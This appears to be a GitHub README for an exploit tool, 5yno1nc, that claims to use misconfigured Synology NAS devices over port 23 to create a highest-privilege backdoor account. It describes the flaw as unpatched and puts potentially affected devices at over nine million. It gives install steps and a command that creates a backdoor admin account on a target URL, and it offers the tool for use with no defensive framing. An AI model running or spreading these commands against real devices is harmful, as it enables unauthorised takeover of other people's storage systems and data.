




# EXP-Synology-2026

Research conducted by Maptnh indicates that improper configuration of Synology NAS devices may result in the exposure of sensitive directories. Attackers can gain access to the target host via port 23 and create a highest-privilege backdoor account.

The estimated number of potentially affected devices is ≥ 9,192,715.

At the time of writing, no official patch has been released.  therefore, please use it with caution.

# Video
 

# 5yno1nc Usage

`$ pip install requests pexpect`

`$ python3 5yno1nc.py --help`

# Create a privileged backdoor account

`$ python3 5yno1nc.py --url http://x.x.x.x:5000 --username backdoor --password ThisIsPass`

